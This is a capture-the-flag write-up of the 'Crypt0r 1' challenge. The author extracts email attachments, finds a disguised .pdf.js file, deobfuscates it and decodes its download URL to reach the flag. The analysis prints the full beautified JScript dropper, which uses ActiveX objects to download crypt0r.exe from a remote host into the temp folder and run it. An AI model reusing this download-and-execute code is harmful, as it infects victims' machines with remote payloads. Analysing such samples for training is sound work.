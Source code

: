 #Cryptor 1

_If you reach the top of the mountain, find yet another._
    -- Super Street Fighter 2 - Fei Long

This is a series of three challenges, crypt0r 1, 2 and 3.

We were told that a secreatry has received something 'strange' in her emails
and asks for help.

## Recon
The name let us think of ransomware: ( https://en.wikipedia.org/wiki/Ransomware ).

That could be fun. The file given is a tgz, called mails.tgz We also know that
ransomware are often sent by emails. That's a first lead.

```
mitsurugi@dojo:~/chall/inshack$ ls -l mails.tgz
-rw-r--r-- 1 mitsurugi mitsurugi 6787079 avril  6 19:46 mails.tgz
mitsurugi@dojo:~/chall/inshack$ tar zxvf mails.tgz 
mails/
mails/MKL4CN1ZSH7R4RKUS2YCP3UXPH6XVVR0.eml
mails/PRZNX8XJTVO0K373U04JYBTFP0XLJ957.eml
mails/I0LJDHELVLZ9YVM7Y6PTKMR3KMY0P8V8.eml
 (.. snip the 70 lines ...)
mails/RVFEYZ4TM8SVWUHOKH7NLDUYM4AXQFGE.eml
mails/099LCMXBLGDYKFEV61T7ND8YSY755205.eml
mails/HICWHKM4Q30ZBII4I10MTRXIOQFUOYMT.eml
mitsurugi@dojo:~/chall/inshack$ cd mails/
mitsurugi@dojo:~/chall/inshack/mails$ for mail in \*eml; do ripmime $mail ; done
mitsurugi@dojo:~/chall/inshack/mails$
```

ripmime have extracted all the attachments. We have a *lot* of files:
```
mitsurugi@dojo:~/chall/inshack/mails$ ls -l | wc -l
270
mitsurugi@dojo:~/chall/inshack/mails$ 
```
From these files, we have to find the one suspicious. This challenge
deals with ransomware, did you ever studied ransomware/malware? If yes,
you surely know that it spread by email, mimicking a zip or doc but being
a script file (.js or .wsf or alike) :
http://0x90909090.blogspot.com/2016/06/analysis-of-evil-javascript.html

Guess what:
```
mitsurugi@dojo:~/chall/inshack/mails$ ls *js
sandoche.briman.pdf.js
mitsurugi@dojo:~/chall/inshack/mails$
```

Ok, we got it \o/

## Analysis
We can work on this js file. It's obfusctaed:
```
mitsurugi@dojo:~/chall/inshack/mails$ cat sandoche.briman.pdf.js 
try{
var b = String.fromCharCode(118, 97, 114, 32, 106, 32, 61, 32,
91, 34, 87, 83, 99, 114, 105, 112, 116, 46, 83, 104, 101, (... snip all numbers ...)
...);
eval(b);
} catch (err) {}
mitsurugi@dojo:~/chall/inshack/mails$
```

Don't lose time with that:
```
mitsurugi@dojo:~/chall/inshack/mails$ js24 
js> String.fromCharCode(118, 97, 114, 32, 106, 32, 61, 32, 91, 34, 87,
(... all number copy-pasted...) 125, 10, 10);
"var j = [\"WScript.Shell\",\"Scripting.FileSystemObject\",\"Shell.Application\",\"Microsoft.XMLHTTP\"];\nvar u = [\"aaacc.\", \":/\", \"gpozgzejgozj\", \"glkrgjoegjnfozpkfpze\", \"top\", \"win32\", \"crypt0r\", \"binaries\", \"sweetvpn\", \".\", \"arch\", \"exe\", \"http\", \"/\"];\n\ntry {\n    var sh = Cr(0);\n    var fs = Cr(1);\n\n    var s2 = Ex(\"temp\") + \"\\\\\" + u[2*2+1] +  u[7+3-1]+ u[5*2+1];\n    var fi = fs.CreateTextFile(s2,true);\n    fi.Write(Pt(2565454484514854845487848, \"kgjgepog=kfOIIIeeoezj==\"));\n    fi.Close();\n    sh.run(s2);\n}\ncatch (err)\n{\n}\n\nfunction Ex(S) {\n    return sh.ExpandEnvironmentStrings(\"%\" + S + \"%\");\n}\n\nfunction Pt(C,A) {\n    var X = Cr(3);\n    var T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11];\n\n    X.open('GET', T + \"?p=r&l=\" + C, false);\n    X.SetRequestHeader(\"User-Agent:\", \"Made by b4cc4rd1\");\n    X.send(A);\n    return X.responsetext;\n}\n\n\nfunction Cr(N) {\n    return new ActiveXObject(j[N]);\n}\n\n"
js>
```

In a beautified form:
```
"var j = ["WScript.Shell","Scripting.FileSystemObject","Shell.Application","Microsoft.XMLHTTP"];
var u = ["aaacc.", ":/", "gpozgzejgozj", "glkrgjoegjnfozpkfpze", "top", "win32", "crypt0r", "binaries", "sweetvpn", ".", "arch", "exe", "http", "/"];

try {
    var sh = Cr(0);
    var fs = Cr(1);

    var s2 = Ex("temp") + "\\" + u[2*2+1] +  u[7+3-1]+ u[5*2+1];
    var fi = fs.CreateTextFile(s2,true);
    fi.Write(Pt(2565454484514854845487848, "kgjgepog=kfOIIIeeoezj=="));
    fi.Close();
    sh.run(s2);
}
catch (err)
{
}

function Ex(S) {
    return sh.ExpandEnvironmentStrings("%" + S + "%");
}

function Pt(C,A) {
    var X = Cr(3);
    var T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11];

    X.open('GET', T + "?p=r&l=" + C, false);
    X.SetRequestHeader("User-Agent:", "Made by b4cc4rd1");
    X.send(A);
    return X.responsetext;
}


function Cr(N) {
    return new ActiveXObject(j[N]);
}

"
```

Ok, we can start reversing.
The juicy part is here: ` X.open('GET', T + "?p=r&l=" + C, false); `
The T parameter depends only on the `u` table. Let show it:
```
mitsurugi@dojo:~/chall/inshack/mails$ ipython
Python 2.7.13 (default, Jan 19 2017, 14:48:08) 
Type "copyright", "credits" or "license" for more information.

IPython 5.1.0 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: u = ["aaacc.", ":/", "gpozgzejgozj", "glkrgjoegjnfozpkfpze", "top", "win32", "crypt0r", "binaries
   ...: ", "sweetvpn", ".", "arch", "exe", "http", "/"]

In [2]: T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[
   ...: 13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11]

In [3]: T
Out[3]: 'http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe'

In [4]: 
```

And we're almost done:
```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe
                                   Not Found

   The requested URL /binaries/arch/win32/crypt0r.exe was not found on
   this server.
mitsurugi@dojo:~/chall/inshack/mails$ 
```

Strange, but we can explore the website:
```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/
   Not that bad. Try again :)

mitsurugi@dojo:~/chall/inshack/mails$
```
Nothing here, let's try upper

```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/
                            Index of /binaries/arch

 Icon   [1]Name                    [2]Last modified      [3]Size  [4]Description
  ___________________________________________________________________________
 [DIR]  [5]Parent Directory                             -
 [   ]  [6].flag                   03-Apr-2017 18:39   37
 [DIR]  [7]arm7/                   06-Mar-2017 13:03    -
 [DIR]  [8]dbg64/                  03-Apr-2017 19:37    -
 [DIR]  [9]elf64/                  06-Mar-2017 13:03    -
 [DIR]  [10]march64/                06-Mar-2017 13:03    -
 [DIR]  [11]mips/                   06-Mar-2017 13:03    -
 [DIR]  [12]sparc/                  06-Mar-2017 13:03    -
 [DIR]  [13]win32/                  08-Mar-2017 12:58    -
  ___________________________________________________________________________

```

Ok, a `.flag` file.

## hayai mono gachi (Early one wins)
This is it:
```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/.flag
INSAc79371180eddac4582321f98d32db67c

mitsurugi@dojo:~/chall/inshack/mails$
```	

If you liked it, the quest continues in Crypt0r\_2
